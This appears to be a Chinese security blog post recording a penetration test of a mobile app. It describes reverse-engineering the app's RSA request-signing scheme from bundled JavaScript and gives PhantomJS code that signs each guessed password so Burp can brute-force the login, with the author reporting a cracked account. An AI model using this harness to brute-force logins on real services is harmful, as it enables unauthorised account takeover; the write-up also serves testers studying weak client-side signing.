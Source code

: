 ```yaml
---
layout: post
title: app渗透测试记录
date: 2020-09-28
category: webmember
---
```


# 主要记录某个app的一次爆破记录

* 拿到app 对登录进行抓包发现请求体里面有个sign参数，那么对于无法修改参数 只能对参数进行sign 再替换掉
```
access_token=cd294d2533b4d01c1644216b485d424c&sign=4feb9cfdd19756b4a258d23eade3152849cf7baefad5c1fab44c99ccc7fa9f2ae12732b07ffe038103670c39d8ac75d639e0536100b128b12bc32b229ddb3132&sign_salt=16012835903941
```
* 由于APP未加固 由于是app想通过逆向获取到sign的计算方法，通过jadxapp反编译app，全局搜索sign未发现关键字
在asserts资源里面发现存在www目录 通过本地搭建app 然后访问阅读源码发现了参数sign
* 主要代码如下  
```
  function getParamterSort(){
		   var dt=new Date(); 
	       var mtime=dt.getTime();
	       var time=mtime;  //获取时间字符串
	       var query = location.search.substr(1)
			    query = query.split('&')
			    var params = []
			    for (let i = 0; i < query.length; i++) {
			        let q = query[i].split('=')
			        if (q.length === 2) {
			            var sss =q[0]+decodeURI(q[1])
			            params.push(sss)
			        }
			    }
			 var dt=new Date(); 
			 var mtime=dt.getTime();
			 var str="sign_salt"+mtime;
			 params.push(str)
			 document.write("需要修改时间:"+"sign_salt="+mtime);
			 document.write("<br/>");
			 var ss=params.sort().join('');
			 return ss;
	}
	//整体字符串加密 通过html 参数传递

	function getSign1(str){
	var rsa = new RSAKey();
	rsa.readPrivateKeyFromPEMString(_privateKey);
	var signature = rsa.sign(str, 'sha256');
	document.write("加密之前的"+str);
	document.write("<br/>");
	document.write("当前加密之后的参数sign是:"+signature);
	document.write("<br/>");
}  
1.js 
var _privateKey=xxx
function objToSortStr(pobj) {
		var arr = [];
		for (var p in pobj) {
			arr.push(p+pobj[p]);
		}
		var sarr = arr.sort();
		return sarr.join('');
	}

function getSign(username){
    var per=document.getElementById("name");
	var option={url: "xxxxx", type: "POST", data:{
						loginName: "test03",
						loginPwd: username,
						checkCode: "mhwu"
					}};
	var dt=new Date(); 
	var mtime=dt.getTime();
	var str=mtime;
	if(option.data){
		option.data.sign_salt=mtime;
		//参数排序字符串
		str= objToSortStr(option.data);
	}
	//参数签名
	var rsa = new RSAKey();
	rsa.readPrivateKeyFromPEMString(_privateKey);
	var signature = rsa.sign(str, 'sha256');
	var result="&sign="+signature+"&loginName=test03"+"&loginPwd="+username+"&checkCode=mhwu&"+"sign_salt="+mtime;
	return result;
}
var wasSuccessful = phantom.injectJs('1.js');/*引入实现加密的js文件*/
var wasSuccessful1 = phantom.injectJs('rsa.js');

// 处理函数
function js_encrypt(payload){
	var newpayload = getSign(payload)
	return newpayload;
}  
```  

![signhtml]({{ site.url }}/assert/image/signhtml.jpg)
可以直接计算sign的值，然后我有使用phantom.js结合burp jsencryter插件编写成功爆破出账户密码  
## 总计
* 对于sign参数加密已经遇到很多了，web的直接去前端查找sign关键字或者在js中全局查找参入的参数
* app如果是其他类型的加密可以使用frida hook
